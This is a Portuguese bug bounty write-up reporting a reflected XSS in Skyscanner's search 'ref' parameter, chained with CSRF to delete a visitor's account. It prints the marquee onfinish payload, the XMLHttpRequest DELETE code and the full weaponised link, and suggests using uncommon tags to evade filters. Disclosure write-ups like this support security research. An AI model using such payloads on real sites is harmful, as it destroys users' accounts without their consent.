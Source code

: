 ```yaml
---
layout: post
title:  "Bug Bounty 03 - Deleting User's Account via Reflected XSS chained with CSRF"
date:   2019-10-03 11:08:00
categories: All
img: bug_bounty.png
---
```

<p align="justify">
Salve rapaziada, no post de hoje irei falar sobre uma vulnerabilidade que encontrei no programa de bug bounty do <a href="https://bugcrowd.com/skyscanner" target="_blank">Skyscanner</a> na plataforma <a href="https://bugcrowd.com/" target="_blank">Bugcrowd</a>.
</p>

<p align="justify">
Enquanto navegava pela aplicação, notei que ao fazer uma busca, haviam vários parâmetros sendo passados pelo método GET, similar a este resultado:
</p>

<p>
<code>https://www.skyscanner.com.br/transporte/passagens-aereas/jpa/kef/190615/190622/?adults=1&children=0&adultsv2=1&childrenv2=&infants=0&cabinclass=economy&rtn=1&preferdirects=false&outboundaltsenabled=false&inboundaltsenabled=false&ref=home#results</code>
<br>
</p>

<p align="justify">
Dei uma no código fonte e vi que o a URL não era refletida no código fonte da aplicação.
<br>
<br>
Depois de pesquisar um pouco mais, notei que ao realizar uma busca por locais que não haviam viagens a URL era refletida no código. Utilizei o seguinte link para encontrar essa funcionalidade:
</p>

<p>
<code>https://www.skyscanner.com.br/transporte/passagens-aereas/jpa/ad/190411/190418/?adults=1&children=0&adultsv2=1&childrenv2=&]infants=0&cabinclass=economy&rtn=1&preferdirects=false&outboundaltsenabled=false&inboundaltsenabled=false&ref=home&ampcurrency=BOB</code>
<br>
<br>
<img src="/images/bug_bounty/bb03/bb03-00.png"/>
</p>

<p align="justify">
Com isso, fui injetando algumas tags nos parâmetros e vendo se eles eram refletidos sem algum tipo de sanitização. Notei que ao inserir algo no parâmetro <i>ref</i> ele era refletido no código fonte e adivinhem... sem nenhum tipo de sanitização.
<br>
<br>
Ao inserir determinados payloads, eu recebia um código 500 e a aplicação era redirecionada para uma página de erro.
<br>
<br>
Depois de algumas tentativas, decidi inserir uma tag que já havia utilizado em outros programas de bug bounty:
<br>
<code>">&lt;marquee>rapt00r&lt;/marquee></code>
<br>
<br>
Esta tag cria uma espécie de painel (tipo aqueles painéis de LED que as letras ficam indo de uma ponta a outra do painel)
<br>
<br>
E bingo!!! O nosso marquee foi adicionado com sucesso no código. Infelizmente não tirei print dessa parte e nem do código fonte pois fiquei muito animado ao ver que realmente funcionou :)
</p>

<p align="justify">
Pesquisando um pouco mais sobre como utilizar a tag marquee, notei que ela suporta um evento JS chamado <i>onfinish</i>.
<br>
<br>
Então, quando o marquee era finalizado, podíamos executar códigos Javascript. Infelizmente também esqueci de tirar print dessa parte :(
<br>
<br>
Dependendo do tamanho do painel que era criado, demoraria muito para o banner finalizar. Então adicionei outros 2 atributos ao nosso marquee: <i>width</i> e <i>loop</i>, que servem para você definir o tamanho e o número de vezes que você quer que o banner apareça.
</p>

<p align="justify">
Bom, nesse ponto nosso payload estava da seguinte forma:
<br>
<code>">&lt;marquee width=0 loop=1 onfinish="alert(1)">rapt00r&lt;/marquee></code>
<br>
</p>

<p>
Agora, o link junto com o payload ficaria da seguinte forma:
<br>
<code>https://www.skyscanner.com.br/transporte/passagens-aereas/jpa/ad/190411/190418/?adults=1&children=0&adultsv2=1&childrenv2=&]infants=0&cabinclass=economy&rtn=1&preferdirects=false&outboundaltsenabled=false&inboundaltsenabled=false&ref=home">&lt;marquee width=0 loop=1 onfinish="alert(1)">rapt00r&lt;/marquee>&ampcurrency=BOB</code>
</p>

<p align="justify">
E quando o usuário acessava, ele veria o alerta em sua tela :)
</p>

<p align="justify">
Decidi então encadear com um CSRF para realizar o account takeover, mas infelizmente não havia a opção de troca de email (e para trocar a senha era necessário saber a senha antiga :/ )
</p>

<p align="justify">
Sem perder as esperanças, notei que havia a opção de deletar a conta. Hmm, interessante...
<br>
<br>
Para realizar a exclusão da conta era necessário enviar uma request (necessário que o usuário esteja autenticado) do tipo <i>DELETE</i> para o endpoint <i>/profile/user/delete-account</i> e a conta seria deletada.
</p>

<p align="justify">
Para finalizar, irei deixar o código da requisição que utilizei no evento JS para realizar a exclusão da conta do usuário que visitasse o link:
</p>

<code>var request = new XMLHttpRequest();
request.open('DELETE', 'https://www.skyscanner.com.br/profile/user/delete-account', false); 
request.send();</code>

<p align="justify">
E o link final para explorar a vulnerabilidade ficou da seguinte forma:
</p>
<p>
<code>https://www.skyscanner.com.br/transporte/passagens-aereas/jpa/ad/190411/190418/?adults=1&children=0&adultsv2=1&childrenv2=&]infants=0&cabinclass=economy&rtn=1&preferdirects=false&outboundaltsenabled=false&inboundaltsenabled=false&ref=https://www.google.com"/> &lt;marquee loop=1 width=0 onfinish="var request = new XMLHttpRequest(); request.open('DELETE', 'https://www.skyscanner.com.br/profile/user/delete-account', false); request.send();">&lt;/marquee>&ampcurrency=BOB</code>
</p>

<p align="justify">
Como PoC desta vulnerabilidade, deixo um vídeo e vocẽs podem acessar pelo link:
<br>
<iframe width="560" height="315" src="https://www.youtube.com/embed/ZuyLvAPg-TQ" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
</p>

<p align="justify">
É isso aí galera, recomendo utilizar outras tags além do <i>iframe, img, script</i>, pode ser que vocês consigam dar esse "bypass" da mesma forma que eu acabei de mostrar :)
</p>

Valeuuu !!!